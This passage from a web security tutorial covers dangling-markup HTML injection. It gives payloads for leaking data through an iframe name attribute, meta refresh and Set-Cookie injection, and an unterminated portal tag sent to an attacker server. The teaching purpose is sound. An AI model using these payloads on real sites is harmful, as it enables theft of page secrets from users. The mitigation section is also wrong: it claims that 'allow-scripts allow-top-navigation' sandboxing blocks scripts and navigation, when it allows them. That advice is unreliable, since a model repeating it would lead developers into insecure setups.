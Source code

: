 **Summary**

Dangling Markup HTML Scriptless Injection is a technique that allows an attacker to inject HTML code into a vulnerable web application, without the need for JavaScript or script tags. This can be used to exploit various vulnerabilities, such as leaking sensitive information from a different page using the iframe name attribute.

**Mitigation**

To mitigate this vulnerability, you can use the sandbox attribute with the value `sandbox=' allow-scripts allow-top-navigation'`. This restricts the capabilities of the injected HTML code and prevents it from executing scripts or navigating to other pages.

**Leaking Sensitive Information using the iframe name attribute**

Another way to exploit this vulnerability is by abusing the iframe name attribute to leak sensitive information from a different page. By injecting HTML code that makes the sensitive information appear inside the iframe name attribute, the attacker can then access that name from the initial iframe and leak the information.
```html
<script>
function cspBypass(win) {
win[0].location = 'about:blank';
setTimeout(()=>alert(win[0].name), 500);
}
</script>

<iframe src="//subdomain1.portswigger-labs.net/bypassing-csp-with-dangling-iframes/target.php?email=%22><iframe name=%27" onload="cspBypass(this.contentWindow)"></iframe>
```
For more info check [https://portswigger.net/research/bypassing-csp-with-dangling-iframes](https://portswigger.net/research/bypassing-csp-with-dangling-iframes)

### \<meta abuse

You could use **`meta http-equiv`** to perform **several actions** like setting a Cookie: `<meta http-equiv="Set-Cookie" Content="SESSID=1">` or performing a redirect (in 5s in this case): `<meta name="language" content="5;http://attacker.svg" HTTP-EQUIV="refresh" />`

This can be **avoided** with a **CSP** regarding **http-equiv** ( `Content-Security-Policy: default-src 'self';`, or `Content-Security-Policy: http-equiv 'self';`)

### New \<portal HTML tag

You can find a very **interesting research** on exploitable vulnerabilities of the \<portal tag [here](https://research.securitum.com/security-analysis-of-portal-element/).\
At the moment of this writing you need to enable the portal tag on Chrome in `chrome://flags/#enable-portals` or it won't work.
```html
<portal src='https://attacker-server?
```
### HTML Leaks

**HTML Leaks**
